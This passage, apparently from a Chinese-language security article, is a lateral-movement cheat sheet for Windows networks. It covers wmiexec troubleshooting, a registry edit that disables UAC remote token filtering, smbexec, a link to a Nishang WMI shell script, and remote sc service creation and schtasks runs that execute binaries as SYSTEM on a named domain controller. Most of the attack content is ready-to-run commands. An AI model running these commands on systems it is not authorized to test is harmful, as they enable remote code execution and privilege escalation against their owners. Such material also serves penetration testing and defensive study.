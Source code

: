![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjKoaHzZpvRHzqmRVPhlEz2BlTPMUCTM6iaFP2FoPDTT1lSHrrDaZW4rg/640?wx_fmt=png)

wmi 只是创建进程, 没办法去判断一个进程是否执行完成 (比如 ping), 这样就导致 wmi.dll 删除不成, 下一次又是被占用, 这时候修改一下 vbs 里面的名字就好：`Const FileName = "wmi1.dll"`, 也可以加入`-persist`参数 (后台运行)

另外有一个 uac 问题**非域用户**登陆到 win08 和 2012 中, 只有 administrator 可以登陆成功, 其他管理员账号会出现 WMIEXEC ERROR: Access is denied 需要在 win08 或者 2012 上面执行, 然后才可以连接:

```
cmd /c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\system /v LocalAccountTokenFilterPolicy /t REG\_DWORD /d 1 /f
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjaY3FDmb3Vwq3AzvHfrYcVjCK6FODpE1hIicrZM9jvLGLPSiczX0e4b0Q/640?wx_fmt=png)

想更详细了解的可以看看：https://www.91ri.org/12908.html  

**smbexec 这个可以根据其他共享 (c$、ipc$) 来获取一个 cmd**

```
先把execserver.exe复制到目标的windows目录下,然后本机执行
```

```
test.exe ip user pass command sharename
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjMTsMNicgZpPsK038yibF3pf3GOiaKGP61hsAQr2vOWa0ydGve7WpmgDXg/640?wx_fmt=png)

**powershell remoting** 感觉实质上还是操作 wmi 实现的一个执行程序

```
https://github.com/samratashok/nishang/blob/5da8e915fcd56fc76fc16110083948e106486af0/Shells/Invoke-PowerShellWmi.ps1
```

SRC 创建服务执行 一定要注意的是 binpath 这些设置的后面是有一个**空格**的

```
1、系统权限(其中test为服务名)
sc \\\\DC1 create test binpath= c:\\cmd.exe
sc \\\\DC1 start test
sc \\\\DC1 delete test
2.指定用户权限启动
sc \\\\DC1 create test binpath = "c:\\1.exe" obj= "centoso\\administrator" passwrod= test
sc \\\\DC1 start test
```

**schtasks schtasks 计划任务远程运行**

```
命令原型：
schtasks /create /tn TaskName /tr TaskRun /sc schedule \[/mo modifier\] \[/d day\] \[/m month\[,month...\] \[/i IdleTime\] \[/st StartTime\] \[/sd StartDate\] \[/ed EndDate\] \[/s computer \[/u \[domain\\\]user /p password\]\] \[/ru {\[Domain\\\]User | "System"} \[/rp Password\]\] /?
For example:
schtasks /create /tn foobar /tr c:\\windows\\temp\\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host
```
